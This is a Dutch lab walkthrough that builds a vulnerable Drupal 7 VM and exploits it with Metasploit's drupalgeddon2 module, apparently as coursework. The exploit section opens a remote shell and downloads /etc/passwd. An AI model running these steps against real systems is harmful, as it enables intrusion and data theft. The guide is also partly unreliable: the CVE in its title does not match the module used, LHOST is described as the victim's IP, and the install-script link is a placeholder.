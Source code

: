 # CVE-2019-6340

## Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

- we kunnen door een exploit die veroorzaakt is door een sanitization fout in de `Drupal 7/8 RESTful Web Services` module, een remote php code execution uitvoeren.

- We gaan [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) gebruiken van metasploit om de exploit uit te voeren.

- we moeten hiervoor eerst drupal installeren en de module `RESTful Web Services` installeren.

## VM Setup

- We gebruiken een debian 11 desktop vm vdi van osboxes (zodat we makkelijk kunnen copypasten).

- We gebruiken vboxmanage om de vm te maken en te starten, deze zal een simpele debian 11 gui vm aanmaken met 2gb ram en 2 cpu cores, deze vm zal ook 2 netwerk adapters hebben, 1 voor de host-only adapter en 1 voor de NAT adapter.

## drupal installeren

- we gaan eerst wget installeren zodat we de drupal installatie script kunnen downloaden.

```bash
sudo apt-get update
sudo apt-get install wget
```

- daarna gaan we mysql-server 5.7 repository opzetten (8 werkt niet met drupal 7).
Het zal vragen welke versie we willen installeren, we kiezen eerst voor debian buster (10) en dan voor mysql 5.7.

```bash
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb &&
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb 
```

- we kunnen eindelijk onze script downloaden en runnen.

```bash
    sudo wget drupalInstall.shLinK To be added &&
    sudo chmod +x drupalInstall.sh &&
    sudo ./drupalInstall.sh
```

- deze script zal drupal 7.54 installeren en de mysql database opzetten.
met root als gebruikersnaam en wachtwoord password voor de database.
er zal ook een drupal database aangemaakt worden met de naam drupal en password als wachtwoord.

- De nodige modules zullen ook gedownload worden(je moet wel nog de modules activeren in de drupal admin panel).


- als de script klaar is zou je normaal gezien drupal moeten kunnen bereiken op http://localhost/index.php of http://xxx.xxx.xxx.xxx/index.php (xxx.xxx.xxx.xxx is het ip van de vm) als u vanop een andere de kali vm wilt bereiken.

- we doen de basis configuratie van drupal en maken een admin account aan.

- voor we verder gaan voeren we nog een laatste commando uit om de drupal installatie te vervolledigen.

```bash
sudo rm -rvf /var/www/html/index.html
```

- dit is nodig of we zullen steeds redirected worden naar index.html.

- we zetten entity en restful web services aan in de modules pagina.

- vanop kali vm gaan we de exploit uitvoeren.

## Exploit

- we starten metasploit op en zoeken de exploit.

```bash
msfconsole
```

- we gaan een externe module  gebruiken die we gevonden hebben.

```bash
use exploit/unix/webapp/drupal_drupalgeddon2
```

- we gaan de exploit configureren.

```bash
set lhost xxx.xxx.xxx.xxx (ip van de vm)
set verbose true
check
run
```

- als alles goed is gegaan zou je nu van op uw terminal een shell moeten hebben op de vm.

- testen of het werkt.

```bash
ls (zou de inhoud van de huidige directory moeten tonen)
shell (open een shell)
ip a (toont de ip adressen van de vm)
exit (sluit de shell)
download /etc/passwd (download het passwd bestand)
download /home/osboxes/capture.txt (download het capture.txt bestand)
```

deze files kan je vinden in de home folder van uw kali vm.

## notes

- voor de externe module te gebruiken moet je een connectie hebben met het internet
- uw kali vm moet een host-only adapter als dezelfde die de vm heeft.
- errors zullen verschijnen op up drupal pagina, dit komt door php versie 7.4 die niet compatibel is met drupal 7.